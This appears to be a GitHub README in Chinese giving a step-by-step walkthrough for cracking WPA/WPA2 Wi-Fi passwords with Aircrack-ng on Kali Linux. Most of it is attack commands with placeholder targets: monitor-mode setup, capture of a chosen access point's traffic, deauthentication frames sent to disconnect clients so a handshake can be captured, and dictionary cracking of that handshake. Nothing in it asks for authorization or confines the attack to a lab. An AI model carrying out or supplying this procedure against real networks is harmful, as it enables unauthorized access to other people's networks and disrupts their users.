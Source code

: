 # Crack wifi Password
使用Aircrack-ng暴力破解WPA/WPA2加密wifi密碼。

## **環境**
* 系統：Kali Linux
* 硬體：一台有無線網卡的電腦

## **流程**
* step1：查看無線網卡名稱
  ```shell
  ifconfig
  ```
* step2：將網卡設定為monitor模式
  ```shell
  airmon-ng start 網卡名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/2.png)
* step3：搜尋目前位置所有 AP 站台
  ```shell
  airodump-ng 網卡監聽後的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/3.png)
* step4：使用`airodump-ng`開始收集封包，並將封包存在指定的目錄下
  ```shell
  airodump-ng -c 頻道 --bssid 目標AP的bssid -w 檔名 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/4.png)
* step5：使用`aireplay-ng`傳送假信號讓AP與Client之間進行互動，進而抓取中間的封包(需另外開視窗動作，收集封包不能斷)
  ```shell
  aireplay-ng -0 發送阻斷封包的數量 -a 目標AP的bssid -c 特定連線主機的bssid 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/5.png)
* step6：收集到 handshake
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/6.png)
* step7：使用`aircrack-ng`進行解密，(必須要擁有密碼字典檔)
  ```shell
  aircrack-ng -b 目標AP的bssid -w 密碼字典檔 使用airodump-ng收集到的arp封包
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-1.png)
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-2.png)
  
## **References**
* https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
